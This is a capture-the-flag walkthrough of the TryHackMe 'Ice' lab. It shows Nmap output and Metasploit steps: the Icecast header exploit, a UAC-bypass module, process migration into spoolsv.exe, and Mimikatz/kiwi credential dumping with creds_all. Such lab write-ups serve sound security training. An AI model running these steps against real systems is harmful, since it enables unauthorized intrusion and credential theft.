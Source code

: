 ```yaml
---
title: "Ice, Ice, Mimi: Unleashing Metasploit and Mimikatz on an Icecast Media Server"
slug: ice-ctf
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


In this walkthrough, we explore the [**Ice**](https://tryhackme.com/room/ice) room on [**TryHackMe**](https://tryhackme.com/), covering steps such as using Nmap for scanning, utilizing the Metasploit Framework to gain initial access, employing the Local Exploit Suggester (LES) tool to identify a vulnerability in the machine's x64 architecture, and leveraging Mimikatz for credential harvesting. We also generate a Golden Ticket to maintain persistence and ultimately perform actions as NT AUTHORITY\\SYSTEM.

### Step 1: Nmap

```bash
nmap -A -T4 -p- 10.10.148.55 -vvv
```

```plaintext
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open                     syn-ack ttl 125 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 125
| rdp-ntlm-info: 
|   Target_Name: DARK-PC
|   NetBIOS_Domain_Name: DARK-PC
|   NetBIOS_Computer_Name: DARK-PC
|   DNS_Domain_Name: Dark-PC
|   DNS_Computer_Name: Dark-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-07-09T18:41:11+00:00
| ssl-cert: Subject: commonName=Dark-PC
| Issuer: commonName=Dark-PC
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-07-08T18:22:10
| Not valid after:  2024-01-07T18:22:10
| MD5:   9831:6ef7:5e92:9760:c249:d586:381b:76e7
| SHA-1: 84a2:1c70:8e5f:99db:3a94:f9fd:46dd:ef4d:7674:80f2
| -----BEGIN CERTIFICATE-----
| MIIC0jCCAbqgAwIBAgIQYcfKOEyzYYlNI1QQFRyl5DANBgkqhkiG9w0BAQUFADAS
| MRAwDgYDVQQDEwdEYXJrLVBDMB4XDTIzMDcwODE4MjIxMFoXDTI0MDEwNzE4MjIx
| MFowEjEQMA4GA1UEAxMHRGFyay1QQzCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
| AQoCggEBAMPu227e3NrhwtK1cHb5cGccDdtublYFtlt3knKlNaAmmfA91mRVbCtp
| oMSWZjdeo97zNNrlnDvCUevBYZwqq/IPvBKx6ZCDoh7DQHg3fLM97Aeu2aJPazT+
| uZzLj/0l21Pj7l8VwXJ4uNIkjAMyFAOMcFZX9wJ3GFv1Y6WRMKtbbNtHK6hIPQJu
| J3FAApUejpAU82jeMu8ssFVaI5Qx0avLHFnjXiuw9VJZdy5GL1vbVikVPHOY1y0r
| sKFz1lJ17XCylqOyM67mpnIokFsfWDLrzK9i1MUGO/oTH/SgJHimFuUjoaGYNvJk
| 3hMxqlNuKJj8P/CBO6rEzkZvoEnD5B8CAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYB
| BQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBBQUAA4IBAQArG6ezZYbXqyNW
| czj2Lis3plqzim++x0xwhbMPLg6X1HOfAxYlYH9kwhiz/0r/a1GttM1lvQcJohsg
| Y5mbDERytrP1cQ0ZsI02VOlCUpzTVBu3+zFcDj9j6MqeewBSR91NLsQqgl3iZD/T
| WpO3iSPsGhJX5IUUrpEZLwNY2Tj8ZgwTrsfJ+SYSUqAoBJj/lsg2RLP0KM88s0Ew
| jKhw/xfjyP+JxIuB9Y0ulSovYL13qc8wpJ1pWdXT6cxIl16egLi9qarftQeMKFj6
| XodAgaNl2YIHIWjPI5n1p7I90nYm6oDill8YqWossW8tGSnhzZSfYYxS61UJXe07
| d8BSxvcV
|_-----END CERTIFICATE-----
|_ssl-date: 2023-07-09T18:41:17+00:00; +1s from scanner time.
5357/tcp  open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http               syn-ack ttl 125 Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET
49152/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49159/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49160/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/9%OT=135%CT=1%CU=32043%PV=Y%DS=4%DC=T%G=Y%TM=64AAFF4
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=
OS:7)SEQ(SP=105%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=105%GCD=1%ISR
OS:=10B%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=105%GCD=2%ISR=10B%TI=I%CI=I%II=I%SS
OS:=S%TS=7)OPS(O1=M509NW8ST11%O2=M509NW8ST11%O3=M509NW8NNT11%O4=M509NW8ST11
OS:%O5=M509NW8ST11%O6=M509ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%
OS:W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M509NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S
OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y
OS:%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%
OS:O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=8
OS:0%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%
OS:Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=
OS:Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.015 days (since Sun Jul  9 12:19:59 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29125/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 36751/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 24764/udp): CLEAN (Failed to receive data)
|   Check 4 (port 27462/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h00m01s, deviation: 2h14m10s, median: 0s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-09T13:41:11-05:00
| nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:55:30:30:60:e5 (unknown)
| Names:
|   DARK-PC<00>          Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   DARK-PC<20>          Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02:55:30:30:60:e5:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2023-07-09T18:41:11
|_  start_date: 2023-07-09T18:22:08
```

A lot of interesting ports, but what sticks out to me is the `Icecast Media Server` running on 8000. Let's do some research to see if we can find an exploit for it.

### Step 2: Research Exploit

It appears that a Metasploit module, named `exploit/windows/http/icecast_header`, is available for our use. Let's dive into this, set it up, and execute it against our target.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691770825224/befb8df9-6036-4c9b-9892-5da335a727af.png){: .center-image }

After running the module, we establish a Meterpreter session. The next task we want to perform is scanning the system for potential exploits using the LES module:

```bash
run post/multi/recon/local_exploit_suggester
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691771001589/df276068-6309-4b7f-8b28-ee071b93dee4.png){: .center-image }

### Step 3: Elevate Privileges

We will use exploit #1, `exploit/windows/local/bypassuac_eventvwr`, to elevate privileges. We'll proceed to background this session using `CTRL+Z` and then utilize the module.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691771088496/4fdcafe1-b173-4eb5-9167-37ccb0374749.png){: .center-image }

Now, let's execute the exploit, and with fingers crossed, we hope to gain elevated privileges.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691771117022/45a47133-6a5f-45a7-8cb0-d4501904345b.png){: .center-image }

{% include note.html content="This may take a few tries, requiring you to reset your environment. Patience is key." %}

And we're in! Let's check our privileges and identify the running services so we can migrate to a comparable level for communication with LSASS.

Using `getprivs`:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691771200621/cb40d385-3874-4fee-b444-6d631474fd68.png){: .center-image }

Then using `ps` to see services:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691771212313/a5eba1c0-78e6-44a9-b1ec-862500de9f01.png){: .center-image }

We want to migrate into `spoolsv.exe`. We can do this with the migrate command:

```bash
migrate -N spoolsv.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691771250639/6aec00eb-8cf6-4338-bf99-0b3356194db7.png){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691771266775/9d980f05-fb68-45ed-abff-bb5c6fa4788b.png){: .center-image }

We now have administrative privileges. Let's utilize Mimikatz to extract credentials.

### Step 4: Mimikatz

Within meterpreter type: `load kiwi`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691771311651/deb07641-a98b-480b-a72f-10c3d9a83c2d.png){: .center-image }

After loading Kiwi, we receive an expanded help menu.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691771331683/27397a12-e3ac-4d87-ba6e-3d87b0840086.png){: .center-image }

Running the `creds_all` command will retrieve all credentials and display some passwords for us.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691772805082/6f35fa64-c02d-443b-bda1-36211ea7da6e.jpeg){: .center-image }

And that's it! We gained a foothold using an exploit module from the Metasploit framework, utilized LES to identify a vulnerability to exploit in the x64 architecture, deployed the `bypassuac_eventvwr` module to elevate privileges, and finally, we used Mimikatz as `NT AUTHORITY\SYSTEM` to dump credentials from the Windows machine.